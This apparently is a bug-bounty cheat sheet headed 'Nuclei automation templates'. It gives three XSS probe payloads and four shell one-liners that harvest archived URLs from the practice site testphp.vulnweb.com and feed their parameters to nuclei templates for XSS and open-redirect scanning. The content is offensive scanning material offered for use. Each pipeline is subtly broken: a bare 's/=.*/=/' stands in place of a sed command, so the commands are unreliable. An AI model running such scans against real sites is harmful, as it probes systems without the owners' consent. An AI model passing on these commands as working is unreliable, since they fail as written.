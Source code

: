 ## NUCLEI AUTOMATION TEMPLATES


**XSS ONE-LINER PAYLOAD `</script><scr<script>ipt>confirm(1)</scr</script>ipt>`**
```
waybackurls testphp.vulnweb.com | grep "=" | 's/=.*/=/' | anew | uro | nuclei -t ~/tools/templates/xss-script.yaml
```

**XSS ONE-LINER PAYLOAD `<img src=x onerror=confirm(1)>`**
```
waybackurls testphp.vulnweb.com | grep "=" | 's/=.*/=/' | anew | uro | nuclei -t ~/tools/templates/xss-img.yaml
```

**XSS ONE-LINER PAYLOAD `<image/src/onerror=confirm(1)>`**
```
waybackurls testphp.vulnweb.com | grep "=" | 's/=.*/=/' | anew | uro | nuclei -t ~/tools/templates/xss-image.yaml
```


**OPENREDIRECT ONE-LINER**
```
waybackurls testphp.vulnweb.com | grep "=" | 's/=.*/=/' | anew | uro | nuclei -t ~/tools/templates/openredirect-checker.yaml
```
